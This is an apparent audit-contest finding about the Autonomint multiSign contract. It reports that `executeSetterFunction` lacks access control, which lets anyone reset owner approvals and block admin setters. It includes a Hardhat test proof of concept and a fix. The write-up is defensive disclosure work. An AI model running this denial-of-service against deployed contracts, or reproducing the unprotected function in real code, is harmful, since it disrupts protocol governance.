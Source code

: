 Dry Brown Cheetah

Medium

# Malicious actor can DoS admin functions due to lack of access control

### Summary

The [`multiSign::approveSetterFunction`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/multiSign.sol#L125) is used by owners to approve specific setter functions of their choice which allow the admin to set critical admin functions in `borrowing` and `CDS` contracts.
```solidity
    function approveSetterFunction(
        uint8[] memory functions
    ) external onlyOwners {
```
The [`multiSign::executeSetterFunction`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/multiSign.sol#L304) is used by the admin functions of `borrowing` and `CDS` contracts to check the approval first to allow updating certain functionalities as well as set the approvals back to false.
```solidity
        // Example of how this function is being called in both contracts
        if (!multiSign.executeSetterFunction(IMultiSign.SetterFunctions(2))) revert CDS_RequiredApprovalsNotMetToSet();
```
However, this function is not restricted to `borrowing` and `CDS` contracts due to lack of access control.
```solidity
    function executeSetterFunction(
        SetterFunctions _function
    ) external returns (bool) {          <@ - // Lack of access control
        // Get the number of approvals
        require(getSetterFunctionApproval(_function) >= requiredApprovals,"Required approvals not met");
        // Loop through the approved functions with owners mapping and change to false
        for (uint64 i; i < noOfOwners; i++) {
            approvedToUpdate[_function][owners[i]] = false;
        }
        return true;
    }
```
Hence, an attacker can deny the admin from updating critical admin functionalities in `borrowing` and `CDS` contracts.


### Root Cause

In [`multiSign.sol:306`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/multiSign.sol#L306), there is lack of access control which would allow anyone to call `executeSetterFunction` and reset the `approvedToUpdate` values to false.


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Any of the owners in the `multiSign` contract calls `approveSetterFunction` to provide approvals for updation of a certain function.
2. Malicious actor keeps on checking the values of `approvedToUpdate` for all owners (which will be less in number) and at any time if it turns out to be true, he can call the `executeSetterFunction` to deny the owner from calling update functions in `CDS` and `borrowing` contracts.

### Impact

1. DoS of a plethora of admin functions in both `CDS` and `borrowing` contracts.

### PoC

Add the following test inside the `BorrowingTest.ts`:
```typescript
    describe("Testing Admin functions", async () => {
        it("Should allow anyone to set all approvedToUpdate to false", async () => {
            const { multiSignA } = await loadFixture(deployer);

            // Owner1 and Owner2 approve to update 1 and 2
            await multiSignA.connect(owner1).approveSetterFunction([1,2, 0]);
            await multiSignA.connect(owner2).approveSetterFunction([1,2, 0]);

            expect(await multiSignA.approvedToUpdate(1, await owner1.getAddress())).to.be.equal(true);
            expect(await multiSignA.approvedToUpdate(2, await owner2.getAddress())).to.be.equal(true);

            // Anyone can set all approvedToUpdate to false
            await multiSignA.connect(user1).executeSetterFunction(1);
            await multiSignA.connect(user1).executeSetterFunction(2);

            expect(await multiSignA.approvedToUpdate(1, await owner1.getAddress())).to.be.equal(false);
            expect(await multiSignA.approvedToUpdate(2, await owner2.getAddress())).to.be.equal(false);

        })
    });
```

### Mitigation

It is recommended to consider adding a `onlyCoreContracts` modifier to `executeSetterFunction`.